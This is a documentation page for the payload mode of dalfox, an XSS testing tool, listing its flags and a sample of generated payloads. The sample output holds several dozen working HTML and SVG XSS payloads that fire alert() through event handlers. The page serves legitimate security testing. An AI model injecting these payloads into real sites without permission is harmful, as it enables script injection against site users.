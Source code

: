 ```yaml
---
title: Payload Mode
redirect_from: /docs/modes/payload-mode/
has_children: false
parent: Usage
nav_order: 5
toc: true
layout: page
---
```


# Payload Mode

`payload` mode is a mode for easy testing of XSS. Generate and Enumerate XSS Payloads and wordlists

```bash
dalfox payload {flags}
```

e.g
```bash
dalfox payload --enum-injs --entity-event-handler"
```

## Make-Bulk
Make-bulk generates many xss payloads. At this point, the parameters of the alert are configured as sequence and it is easy to find which payload was triggered during the XSS test.

```bash
dalfox payload --make-bulk
```

output

```html
...snip...
<track onbeforepaste=\"alert(488)\" contenteditable>test<\/track>
<tt onbeforepaste=\"alert(489)\" contenteditable>test<\/tt>
<u onbeforepaste=\"alert(490)\" contenteditable>test<\/u>
<ul onbeforepaste=\"alert(491)\" contenteditable>test<\/ul>
<var onbeforepaste=\"alert(492)\" contenteditable>test<\/var>
<video onbeforepaste=\"alert(493)\" contenteditable>test<\/video>
<wbr onbeforepaste=\"alert(494)\" contenteditable>test<\/wbr>
<xmp onbeforepaste=\"alert(495)\" contenteditable>test<\/xmp>
<body onbeforeprint=alert(496)>
<svg><path><animateMotion onbegin=alert(497) dur=\"1s\" repeatCount=\"1\">
<svg><animatetransform onbegin=alert(498) attributeName=transform>
<svg><set onbegin=alert(499) attributename=x dur=1s>
<svg><animate onbegin=alert(500) attributeName=x dur=1s>
<input onblur=alert(501) id=x><input autofocus>
<textarea onblur=alert(502) id=x><\/textarea><input autofocus>
...snip...
```

## Encoder
```bash
--encoder-url            Encoding output [URL]
```

## Supported
```bash
--entity-event-handler   Enumerate a event handlers for xss
--entity-gf              Enumerate a gf-patterns xss params
--entity-special-chars   Enumerate a special chars for xss
--entity-useful-tags     Enumerate a useful tags for xss
--enum-attr              Enumerate a in-attr xss payloads
--enum-common            Enumerate a common xss payloads
--enum-html              Enumerate a in-html xss payloads
--enum-injs              Enumerate a in-js xss payloads
--make-bulk              Make bulk payloads for stored xss
--remote-payloadbox      Enumerate a payloadbox's xss payloads
--remote-portswigger     Enumerate a portswigger xss cheatsheet payloads
```

## Screenshots
![1414](https://user-images.githubusercontent.com/13212227/120361642-0b9e1000-c345-11eb-8283-9c0b7fdac8b3.jpg)
